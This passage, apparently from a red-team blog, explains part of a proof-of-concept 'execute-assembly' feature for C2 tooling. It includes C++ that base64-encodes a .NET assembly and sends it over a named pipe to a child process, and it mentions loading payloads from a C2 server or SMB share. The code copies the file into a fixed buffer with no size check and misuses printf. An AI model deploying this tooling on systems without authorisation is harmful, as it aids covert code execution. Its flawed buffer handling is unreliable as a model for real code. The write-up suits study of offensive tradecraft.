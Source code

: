 Writing is another issue. The way I went about implementing this is to take a user's input of an assembly name and arguments over STDIN, find the provided assembly, base64 encode it, and send that + the arguments to the child process over a named pipe. Something important to note with my implementation: this does rely on the assembly being readable by the parent process, such as on disk. Since this is a POC I'm fine with that, and you'll likely need to make adjustments to fit with your tooling anyways. I think the easiest way of accomplishing this is to have your C2 client handle all of the encoding and simply have the parent process relay the data to the child. Alternatively, you could have the parent process reach out to the C2 server, or load the file from an SMB share. I may implement these things in the future, but again it will almost definitely depend on your tooling.

```cpp
int SendAssembly(std::string argString)
{
    HANDLE hPipe;
    DWORD dwWritten;
    static char buffer[1000000];
    std::string exe_name;
    std::string exe_args;
    if (argString.find(" ") == std::string::npos)
    {
        exe_name = argString;
        exe_args = "";
    }
    else
    {
        exe_name = argString.substr(0, argString.find(" "));
        exe_args = argString.substr(argString.find(" ") + 1, argString.size());
    }
    hPipe = CreateFile(TEXT("\\\\.\\pipe\\execute-assembly-pipe"),GENERIC_READ | GENERIC_WRITE,0,NULL,OPEN_EXISTING,0,NULL);
    if (hPipe != INVALID_HANDLE_VALUE)
    {
        printf("[+] Sender connected to named pipe\n");
        printf("[i] Getting %s\n", exe_name);
        std::ifstream in(exe_name, std::ios::in | std::ios::binary);
        //Contents of the assembly
        in.seekg(0, std::ios::end);
        size_t length = in.tellg();
        in.seekg(0, std::ios::beg);
        in.read(buffer, length);
        const unsigned char* unsigned_buffer = reinterpret_cast<const unsigned char*>(buffer);
        //Encode the assembly, append arguments (with a space) and send it over the named pipe
        std::string cmdline = base64_encode(unsigned_buffer, length).append(" ").append(exe_args);
        BOOL succ = WriteFile(hPipe,cmdline.c_str(),cmdline.size(),&dwWritten,NULL);
        CloseHandle(hPipe);
    }
}
```

And finally, our main process will pull all of this together. It will set up the named pipes, create the process, create a thread that will poll for output from the child, and then continuously ask for user input.
